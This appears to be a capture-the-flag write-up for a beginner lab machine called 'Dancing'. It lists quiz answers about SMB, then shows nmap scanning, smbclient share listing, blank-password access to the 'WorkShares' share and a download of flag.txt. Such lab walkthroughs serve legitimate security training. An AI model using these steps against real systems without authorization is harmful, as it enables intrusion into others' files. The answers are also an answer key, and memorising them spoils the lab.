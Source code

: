 # Dancing

> 目标 IP: 11.11.11.12

## TASK 1

> What does the 3-letter acronym SMB stand for?

- Server Message Block

## TASK 2

> What port does SMB use to operate at?

- 445

## TASK 3

> What is the service name for port 445 that came up in our Nmap scan?

- microsoft-ds

## TASK 4

> What is the 'flag' or 'switch' that we can use with the smbclient utility to 'list' the available shares on Dancing?

- -L

## TASK 5

> How many shares are there on Dancing?

- 4

## TASK 6

> What is the name of the share we are able to access in the end with a blank password?

- WorkShares

## TASK 7

> What is the command we can use within the SMB shell to download the files we find?

- get

## Submit Flag

```sh
$ nmap -sV 11.11.11.12
PORT    STATE SERVICE       VERSION
135/tcp open  msrpc         Microsoft Windows RPC
139/tcp open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds?
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

$ smbclient -L 11.11.11.12
Sharename       Type      Comment
---------       ----      -------
ADMIN$          Disk      Remote Admin
C$              Disk      Default share
IPC$            IPC       Remote IPC
WorkShares      Disk

$ smbclient \\\\11.11.11.12\\WorkShares
Password for [WORKGROUP\root]:
Try "help" to get a list of possible commands.
smb: \> ls
  .          D   0  Mon Mar 29 16:22:01 2021
  ..         D   0  Mon Mar 29 16:22:01 2021
  Amy.J      D   0  Mon Mar 29 17:08:24 2021
  James.P    D   0  Thu Jun  3 16:38:03 2021

    5114111 blocks of size 4096. 1733585 blocks available
smb: \> cd James.P
smb: \James.P\> ls
  .          D        0  Thu Jun  3 16:38:03 2021
  ..         D        0  Thu Jun  3 16:38:03 2021
  flag.txt   A       32  Mon Mar 29 17:26:57 2021

    5114111 blocks of size 4096. 1733585 blocks available
smb: \James.P\> get flag.txt
getting file \James.P\flag.txt of size 32 as flag.txt (0.0 KiloBytes/sec) (average 0.0 KiloBytes/sec)
```
